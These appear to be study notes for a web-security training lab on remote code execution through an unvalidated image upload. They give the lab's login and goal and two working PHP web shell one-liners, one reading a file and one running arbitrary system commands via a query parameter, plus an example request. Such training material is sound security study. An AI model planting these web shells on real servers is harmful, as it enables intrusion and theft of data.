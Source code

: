 # Lab: Remote code execution via web shell upload

## Description

 This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file */home/carlos/secret*. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: *wiener:peter* 

## Tips from portswigger

### Content-type response header

The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping.

### php webshells

A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint. 

#### Example to read a file on server

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```
 Once uploaded, sending a request for this malicious file will return the target file's contents in the response. 

#### Example to execute a command

```php
<?php echo system($_GET['command']); ?>
```
 This script enables you to pass an arbitrary system command via a query parameter as follows: 
 
 ```
GET /example/exploit.php?command=id HTTP/1.1
```
